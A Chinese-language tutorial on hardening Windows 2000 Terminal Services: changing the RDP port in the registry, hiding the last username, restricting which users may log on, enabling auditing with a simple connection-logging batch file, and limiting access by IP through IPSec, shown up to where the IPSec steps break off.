

Windows 2000 终端服务（本文以 Windows 2000 Server 为基准，下同）由于使用简单、方便等特点，备受众多管理员喜爱，很多管理员都利用它作为远程管理的一个重要工具。然而，正是由于它使用简单、方便，不与当前用户产生一个交互式登录，可以在后台登录操作，它也受到了黑客的关注。这不，现在有大把大把的人在成功入侵目标机器后会想尽办法，不惜重启对方机器，明目张胆地将终端服务安装上。目的非常明显，就是方便自己进入进行操作。也正是这些原因，导致它的安全性备受非议。

其实，自 N 年前那个输入法漏洞之后，终端服务还没有出现过大的漏洞。虽然输入法漏洞给无数管理员带来了噩梦，但平心而论，这个漏洞还不能完全说是终端的“错”，毕竟它也是“受害者”之一。

我认为，系统的终端服务在经过认真的配置之后，它的安全性还是很不错的，只是终端的默认配置没有开启相应的安全策略，让人对它的安全性打了个问号而已。

现在，我们来给它加强一下安全性问题。

### 一、修改终端服务的端口

我们知道，Windows 2000 的终端服务安装完成后默认打开的端口是 3389。结果，全世界的人都知道只要有机器开了 3389 端口，那十有八九就是 Windows 的终端服务了。这经常会引来一些无聊人的兴趣及一些不必要的攻击。有什么办法呢？我们将原端口改改，改成不常用又容易记的端口。

要修改它的默认端口，必须在注册表中修改。我们打开注册表并找到：

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\TerminalServer\Wds\Repwd\Tds\Tcp

如图 1 所示。



图 1

有没有看到那个 PortNumber 项？它的值是 16 进制，就是 3389，它是终端打开后默认开启的值。我们选定它并按右键修改时，选 10 进制它就显示为 3389，将它改成我们要修改的端口号后确定退出。

接着，再打开：

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp

如图 2 所示。还是那个 PortNumber 项，将它的值改成跟刚才修改时的值一样。注意：两个项的值一定要一致、相同。



图 2

修改完成后，必须重新启动才能生效。

当然，连接的客户端也要做相应的改动。现在我们在客户端连接管理器新建一个连接，建成后再导出，用记事本打开它并找到 server port，如图 3 所示。



图 3

将 server port 后面的值改成要连接端口的值。保存后再导入到客户端连接管理器，以后我们就可以用它来连接了。

这下我们的终端服务可以减少很多不必要的攻击了。试问，你会用终端客户端无目的地去连接一个非 3389 的端口（如 1234 端口）吗？

### 二、隐藏登录的用户名

在系统安装完成后，如果不做修改，在下次登录时会显示上一次登录时的用户名。微软在此也将这个功能应用到了终端服务中来。这个很容易被有心人所利用，因为对方可以不厌其烦地连接到服务器尝试我们管理员的密码。

不行不行，我们来将上次登录的用户名隐藏起来。打开注册表，找到：

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\NT\CurrentVersion\Winlogon

子键下的 DontDisplayLastUserName 项，默认值是 0，将它的值改成 1，如图 4 所示。



图 4

重新启动后，我们上次登录的用户名就没有显示出来了。

怎么样，世界清静了很多吧？

### 三、指定用户登录

在默认情况下，任何具有 admin 权限的用户都可以通过终端连接到我们的服务器。我认为，这会给我们的管理、安全带来一些不必要的麻烦。虽然一台服务器在正常情况下具有 admin 权限的用户不会很多，但我认为在这个流行 bug 的时代，服务器被攻克已不再是件新鲜事。

当对方获得我们服务器的一个 shell 之后，就可以让具有 admin 权限的用户通过终端连接上来，那不是给他一种如入无人之境的感觉？我们是不能接受的。通常，我们管理一台服务器都用固定的一两个管理员用户登录管理，没有必要让所有 admin 权限的用户远程登录上来。所以，我们有必要限制不必要用户的登录。

我们来做个限制：打开“开始”→“程序”→“管理工具”→“终端服务配置”，选“连接”，再选右边的“RDP-TCP”的属性，找到“权限”选项，删除 administrators 组，然后再按添加来将我们允许通过终端连接上来的用户，比如我们只允许 netff 用户可以登录，其他用户一律不允许，结果如图 5 所示。



确定后退出。这时我们连接到服务器，不管你用的用户权限有多大，只要以非 netff 用户登录，都会收到一个不允许登录的对话框，如图 6 所示。而用 netff 用户则能够正常登录，这应该是一个不错的管理方法吧？



### 四、启动审核

接下来有一个问题，就是我想知道究竟有多少人连接到我的终端服务并用我的账号登录，那怎么办？系统本身不是有审核功能吗？它能不能像审核本地机器一样对终端进行审核呢？有，终端也有自己的日志。不过，终端服务在默认情况下，它的安全日志是不打开的，我们来打开它。

在图 5 所示的对话框的左下角，有一个“高级”按钮，按它进入，选“审核”选项，再按“添加”，用户选 everyone 组，在访问处选“登录”的成功与失败及“注销”“断开”的成功即可，如图 7 所示。

如果选太多了，看都没时间看。不过，要使它真正记录，系统自身的审核策略还是得打开，否则它自己不会记录。

好了，现在什么人什么时候登录终端系统都替我们记录得一清二楚了。不过，这里也有一个缺点，那就是它只记录客户端的计算机名而不是 IP。（如果对方起个奇奇怪怪的计算机名，那……）

很多朋友为解决这个问题，就自己写脚本来解决。写脚本，程序就要各显神通了，以下给出一个很多人都用的 bat 脚本：

```bat
time /t>>TSLog.log
netstat -n -p tcp|find ":3389">>TSLog.log
start Explorer
```

这个脚本就是监视本机的 3389 端口的连接情况，如果有连接就记录连接时服务器的当前时间及连接机器的 IP 地址。这个脚本很简单也很实用。

### 五、限制指定连接终端的地址

只要我们连上因特网，我们就可以访问因特网上的任意一台计算机；同样，因特网上的任意一台计算机也可以连接我们。也就是说，因特网上任何一台装有终端客户端的机器都可以连接到我们的终端服务器，“替”我们管理服务器。虽然我们的服务器在上面已经做了大量的安全工作，但我认为这还是不够的。

举个例子：我有一台服务器托管放在北京，有时我要通过终端连上去进行管理。由于我的服务器在因特网上，那么整个因特网的机器都可以连接它。虽然我们的服务器做了相应的设置，对方没有得逞，但毕竟他可以连上去并尝试用我的密码来登录。用账户锁定吧，那有时真的也把我锁在外面，不行不行！有什么更好的办法吗？

对策如下：在服务器上用系统自带的 IPSEC 来指定特定的 IP 地址可以连接终端服务器，其他非指定的 IP 地址一律拒绝，就是给他们连接的机会都没有。

假设：我们有固定的 IP 地址上网并通过它管理我们的服务器，如我们上网的 IP 地址是 111.111.111.111。我们在终端服务器设置只允许 IP 地址为 111.111.111.111 的用户可以连接 3389 端口，其他的 IP 地址一律拒绝。在 IPSEC 操作如下：



打开服务器的“开始”→“程序”→“管理工具”→“本地安全策略”，选择“IP 安全策略，在本地机器”，在右边空白处单击右键，选择“创建 IP 安全策略”。这时会打开一个对话框，下一步→给策略取名（如 3389）→不选“激活默认响应规则”→“完成”。这时会打开一个对话框，是新建策略（3389）的属性。

上面创建的 IP 安全策略只是一个开始，它里面没有什么实际内容。现在我们来创建想要的规则。不选“使用添加向导”前面的框（由于 IPSEC 使用起来给人的感觉非常复杂，为了让读者尽量明白操作过程和目的，在这一步我认为不使用向导更明了），再按“添加”，出现“新规则”的属性。由于我们先前没有建过规则，所以这里只有默认的两个选项且没有选中，这些不是我们需要的，我们必须新建规则。再按“添加”按钮，出现“IP 筛选器列表”，给它起个名称，就叫 all_3389 吧。不选“使用添加向导”，再按“添加”，在打开的对话框中，设置成如图 8、图 9 所示的设置。





按“确定”“关闭”回到“新规则”属性窗口，选中刚设置的规则“all_3389”，再按“筛选器操作”选项。“筛选器操作”选项里面没有我们要的“阻止”选项，我们新建一项阻止。还是不选“使用添加向导”，按“添加”，在弹出的对话框中，在“安全措施”处选“阻止”项，如图 10 所示。

